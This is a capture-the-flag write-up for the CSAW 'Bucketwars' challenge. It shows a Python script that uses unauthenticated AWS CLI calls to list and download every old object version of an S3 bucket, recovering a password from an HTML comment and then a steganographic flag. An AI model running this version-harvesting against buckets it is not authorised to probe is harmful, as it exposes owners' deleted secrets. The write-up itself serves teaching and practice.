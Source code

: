 Writeup for Bucketwars challenge of CSAW CTF 

The bucket url can be found by triggering any error ike 404.


Firstly,after some thinking the hint "we don't make mistakes in these parts" could be pointing towards the concept of **versioning** in Amazon S3 buckets. 

So we run a script to fetch the version list and then all the older version files as well from the bucket using the filenames from the versions file obtained:

```
from subprocess import check_output
import json

BUCKET_NAME = "bucketwars.ctf.csaw.io"


def getFiles():
    cmd_output = check_output(
        f'aws s3api list-object-versions --no-sign-request --bucket {BUCKET_NAME} --prefix "" --output json', shell=True)

    return json.loads(cmd_output)["Versions"]


def getFile(file):
    filename, VersionId = file["Key"], file["VersionId"]

    try:
        output_filename = f"{filename.split(".")[0]}_{VersionId.strip()}.{
            filename.split(".")[1]}"
    except IndexError:
        output_filename = f"{filename}{VersionId}"

    check_output(
        f"aws s3api get-object --no-sign-request --bucket {BUCKET_NAME} --key {filename} --version-id {VersionId} {output_filename}", shell=True)

    print(file["LastModified"], f"""{
          int(file["Size"])/1000} KB""", output_filename, sep="\t")


# files = json.loads(open("versions.json").read())["Versions"]
files = getFiles()

print(f"Pulling [{len(files)}] files")
print("Timestamp\tSize\tFilename_VersionId")

for file in files:
    getFile(file)
	
	```

In one of the version files we get this comment:

```
    Oh it can't be
    <!-- Note to self: be sure to delete this password: versions_leaks_buckets_oh_my --> 
```
And we find a image in a previous version of the v1 html(index_v1_t6G6A20JCaF5nzz6KuJR6Pj1zePOLAdB.html).
Running steghide on the image with the above password gives the flag.